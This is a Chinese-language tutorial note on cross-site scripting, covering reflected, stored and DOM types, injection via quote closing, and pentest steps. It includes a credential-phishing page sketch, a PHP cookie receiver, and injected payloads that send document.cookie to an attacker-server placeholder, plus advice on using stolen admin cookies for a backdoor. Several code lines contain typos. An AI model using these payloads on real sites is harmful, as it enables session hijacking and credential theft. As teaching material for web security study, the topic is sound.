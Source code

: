 # XSS基本原理

## 一、XSS基础演示代码

```php
<?php
// 从浏览器接受一个URL地址参数，名为content
if(isset($_GGET['content'])){
    $content = $_GET['content'];
    echo "你输入的内容：$content";
}
else{
    echo "请输入URL地址参数content";
}
?>
```

- 在地址栏输入：`http://localhost/security/test.php?content=helloworld`可以正常输出：`你输入的内容：helloworld`

- 在地址栏输入`http://localhost/security/test.php?content=<script>alert(1)</script>`时，前端执行JavaScript代码，弹出对话框

  ```
  或者：
  http://localhost/security/test.php?content=<button onclick=alert("你被攻击了")>点我</button>
  以及更复杂一些的：
  http://localhost/security/test.php?content=<script>test() {alert("你被攻击了")}</script><button onclick="test()"点我</button>
  ```

- 构造打开页面就执行的payload：

  ```
  http://localhost/security/test.php?content=<script>var result=0;for (var i=0;i<=100;i++) {result += i;} atlert(result);</script>
  需要注意的是，加号在URL中会被替换为空格，在构造payload时，可以使用%2B代替
  ```

## 二、XSS概述

- XSS指跨站攻击脚本，XSS漏洞发生在前端，攻击的是浏览器的解析引擎，XSS就是让攻击者的JavaScript代码在受害则会的浏览器上执行

- XSS的核心要求是构造出能让前端只想的JavaScript代码，所以要对JavaScript熟练

- XSS也算是注入类的漏洞，JavaScript的代码注入，所以XSS漏洞更主要是攻击系统的用户，而不是系统本身

- XSS是一种钓鱼攻击，攻击目标是不确定的。但是，如果针对Cookie类的攻击，隐含一个目标：网站管理员 

- JavaScript运行条件：

  - 代码位于`<script></script>`标签中

    ```
    <script>alert("你被攻击了")</script>
    ```

  - 代码位于onclick事件中，此类事件带有onerror,onload,onfocus,onblur,onchange,onmouseover,ondoubleclick等

    ```
    <img src="http://xxx.jpg" onmouseover="alert("/你被攻击了/")"
    ```

  - 代码位于超链接的href属性中，或者其他类似属性中

    ```
    <a href="javascript:alert(/你被攻击了/)">点击有奖金</a>
    ```

- XSS攻击流程

  ![202402271305096.png](../../picture/a46d44ea272c45818c1242be2b3f7a7f.png)
  
- 基于XSS配置钓鱼网站，自行构造一个与淘宝页面一样的网页，用户一旦输入用户密码，将直接发送账密到攻击者的后台服务器，然后后台将账密保存后，再跳转到真实的淘宝网站，让用户完成后续工作，服务器代码类似于：

  ```
  //获取用户账密
  $username = $_POST['username'];
  $password = $_POST['password'];
  
  // 将数据保存起来，然后跳转到真实网站
  
  echo "<script>document.write('你的账号密码不正确，请重新登录');setTimeout(function()) {location.href='https://www.taobao.com';},2000;)</script>";
  ```

## 三、XSS类型

- 反射型：构造好一个URL|XSS的payload，发给受害者，受害者点解一链接后会在受害者的浏览器上执行恶意代码。反射型XSS一次性的，比较容易被发现。通常恶意链接会被修改成一段短链接，或钓鱼图片的形式。
- 存储型：又叫永久型XSS，常见于留言板。因为存储型XSS的页面会将用户输入的内容存到数据库中，所以当其他人每访问一次的时候服务器都会从数据库将攻击者输入的内容掉渠道前端浏览器解析，因此每一次访问就相当于一次XSS攻击
- DOM型：不与服务器交互，本质还是一种反射型XSS，主要利用js使用DOM对前端html操作时产生的漏洞。DOM型XSS的难点在于它通过阅读JavaScript来确定输出的位置才好构建输入的payload，DOM型XSS可以通过开发者工具观测js变化

## 四、XSS渗透测试步骤

- XSS的原理就是开发者没有对输入内容进行过滤，导致攻击者通过将精心构造的前端代码输入后与原有的前端代码产生混淆，形成新的页面语句，并且新的页面语句可能被浏览器解析并输出
  - 输入：指攻击者对服务器王爷输入恶意代码
  - 输出：指浏览器接收到代码后能够解析并输出到前端
- XSS渗透测试步骤
  - 找到输入点，输入任意字符串，查看输出位置
  - 打开网页源代码，在源代码中查看输出的位置（有可能输入和输出不在同一页面）
  - 查看输出位置的内容跟与输入内容之间的关系，构建闭合和拼接脚本
  - 利用<script>或者onclick或alert(1)进行测试，确认是否存在XSS注入点
  - 开始利用该注入点进行各种复杂操作以实现攻击目的

- 将php代码优化为以下，让用户输入内容在一个文本框中输出：

    ```php
    <?php
    // 从浏览器接受一个URL地址参数，名为content
    if(isset($_GGET['content'])){
        $content = $_GET['content'];
        echo "你输入的内容是：<input type='text' id='content' value='" . $content . "'>";
    }
    else{
        echo "请输入URL地址参数content";
    }
    ?>
    ```
    
    - 此时可以通过拼接引号构造闭合来进行注入：
    
      ```
      http://localhost/security/test.php?value=hello' onclick=alert(1)'
      可以使用注释(#、//、/**/、<!--)将后面的内容截断：
      http://localhost/security/test.php?value=hello' onclick=alert(1) /> <!--
      ```

## 五、XSS获取Cookie

### 1.创建XSSdata数据库

![image-20240227160126122](../../picture/88f4885afaef4f79ab84465af5780744.png)

### 2.攻击者服务器代码

```php
// 以下代码同样具有sql注入漏洞，可以利用报错注入的方式进行注入

<?php
    
$ipaddr = $_SERVER['REMOTE_ADDR'];
$url = $_GET['url'];
$cookie = $_GET['cookie'];
    
$conn = new mysqli('127.0.0.1','root','123456','learn') or die("数据库连接不成功");
$conn->set_charset('utf8');
$sql = "insert into xssdata(ipaddr, url, cookie, createtime) values('$ipaddr','$url','$cookie',now())";
$conn->query($sql);

// 执行完上述收集过程后返回上一级：
// echo "<script>history.back();</script>";
// 执行完上述收集过程后跳转到其他网站：
// echo "<script>location.href='http://www.baidu.com/'</script>";

?>
```

### 3.在页面中注入代码

```
以下内容要注意在注入时把+号和&号替换为%2B和%26

使用script标签,将以下代码注入到页面后，每当有用户访问该留言或帖子，攻击者服务器就能收集到cookie信息：
<script>
	new Image().src = "http://攻击者服务器地址/xssrecv.php?url=" + location.href + "&cookie=" + document.cookie;
</script>


如果script被过滤，可以如下注入，但需要用户点击图片攻击者服务器才能收集到cookie信息：
<a href=\'javascript:location.href="http://攻击者服务器地址/xssrecv.php?url="%2Blocation.href%2B"%26cookie="%2Bdocument.cookie\'><img src="http://攻击者服务器地址/image.gif"/>  </a>
```

- 获取cookie后，可以利用该cookie伪装用户登录
- 当管理员访问页面时也会被收集cookie，可以利用管理员身份快速给自己留下后门

## 六、BlueLotusXSS平台

[trysec/BlueLotus_XSSReceiver: XSS平台 CTF工具 Web安全工具 (github.com)](https://github.com/trysec/BlueLotus_XSSReceiver)

使用工具
